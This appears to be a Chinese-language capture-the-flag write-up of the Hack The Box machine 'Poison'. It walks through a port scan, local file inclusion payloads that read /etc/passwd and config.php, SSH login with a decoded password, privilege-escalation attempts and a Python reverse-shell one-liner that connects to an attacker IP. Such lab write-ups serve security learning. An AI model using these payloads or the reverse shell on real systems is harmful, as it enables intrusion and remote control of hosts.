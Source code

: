 ```yaml
---
categories:
- training
tags: 
    - training
---
```


#### 1. 端口扫描
ip: 10.10.10.84
'''
22/tcp   open  ssh
80/tcp   open  http
5802/tcp open  vnc-http-2
5902/tcp open  vnc-2
5903/tcp open  vnc-3
6002/tcp open  X11:2
6003/tcp open  X11:3
'''
嗯，确认是linux系统
#### 2. web探测

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/2.PNG)
一看到浏览器上的URL：`file=xxx`，就富有职业精神的输入`../../../../../etc/passwd`

![啊哈~一个文件包含](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3.PNG)

> Info1——机器上普通用户名称:
 hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh

运行：`http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=config.php`

>Info2——文件路径：
Warning: include(php://filter/convert.base64-encode/resource=config.php): failed to open stream: operation failed in /usr/local/www/apache24/data/browse.php on line 2
Warning: include(): Failed opening 'php://filter/convert.base64-encode/resource=config.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in /usr/local/www/apache24/data/browse.php on line 2

于是用php协议，访问browse.php，用hackbar解码一下。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4.PNG)
本来想用dirbuster扫描下存在的文件，再用文件包括去查看敏感文件。。。
但是，这个实验中，主页面上有一个listfiles.php，访问以后，直接指出了一个pwdbackup.txt。

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/5.PNG)
上面说这个密码很安全，它被加密了13次。真的还能出什么问题。
然后我一看，我去，base64编码还好意思说安全，加密13次又有什么意义吗？
我还是太菜，手动把密文的\n去掉，然后再解码，很多次解码后，密码为：`Charix!2#4%6&8(0`

方法二：
sed -i 's/\n//g' pwdbackup.txt
>Info3——口令
Charix!2#4%6&8(0

- Trying:
`ssh charix@10.10.10.84`

charix/Charix!2#4%6&8(0
**ssh登陆成功**
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/6.PNG)

#### **3.提权**

/home/charix目录下有三个文件，一个flag；一个secret，是空文件；还有一个secret.zip。
那么需要解压一下，tar -zxvf secret.zip
提示`x secretEnter passphrase:`
那么需要输入密码，然后尝试错误密码，会反复提示`Enter passphrase`。
通过Info3口令，成功解压。
解压后是secret文件，类型为：`secret: Non-ISO extended-ASCII text, with no line terminators`

用cat secret，显示为乱码。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/7.PNG)

![vi secret](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/8.png)

- sudo、gcc----------->command not found
- su             ------> Sorry
- uname -a查看内核版本，应该不是内核漏洞提权。
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```
- `nc -l 999` -------> nc: Permission denied

- Trying（SUID提权，[参考](https://pentestlab.blog/tag/find/)）。
`find / -user root -perm -4000 -exec ls -ldb {} \;`
执行结果中，没有namp、vim、find等等可以提权的程序。

有意思的是，在连接过程中，ssh命令面板突然不灵了，无法输入任何命令。
重新连进去以后，我的readme.txt多了一行。。。看来遇到同道中人了。

- Trying：测试nc，用服务端连接kali。成功连接。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%202.PNG)

不是吧。。又连不上了，第一次遇到被人挤下线。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%203.PNG)

查看一下进程这些都是远程连进来的。。。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%204.PNG)

- Trying：太卡了，弹一个python shell。
本地：`nc -lvp 1234`
服务器：`python ‐c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","‐i"]);'`

- Trying :
 python -m SimpleHTTPServer 888
```
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
 。。。此处省略几十行
socket.error: [Errno 13] Permission denied
```
- Trying：

![找到网站所在目录](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%89%BE%E5%88%B0%E7%BD%91%E7%AB%99%E6%89%80%E5%9C%A8%E7%9B%AE%E5%BD%95.png)

![3权限不够](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3%E6%9D%83%E9%99%90%E4%B8%8D%E5%A4%9F.png)

- Trying:
尝试vnc远程命令执行
![查看开放端口](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/9.PNG)

![netstat](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4netstat.PNG)

![尝试vnc远程命令执行](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%205.PNG)

use exploit/multi/vnc/vnc_keyboard_exec
set RHOST
set PASSWORD
set RPORT

试了好多密码，包括里面secret文件。失败

#### 2018.9.28.总结
[writeup参考](http://www.hackingarticles.in/hack-the-box-poison-walkthrough/)

[SSH原理与运用（二）：远程操作与端口转发](http://www.ruanyifeng.com/blog/2011/12/ssh_port_forwarding.html)
![01](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/01.PNG)

**通过绑定本地和远程的端口，就可以用vncviewer命令，使用密钥，开启vnc窗口**
vncviewer  -passwd secret  127.0.0.1:5901


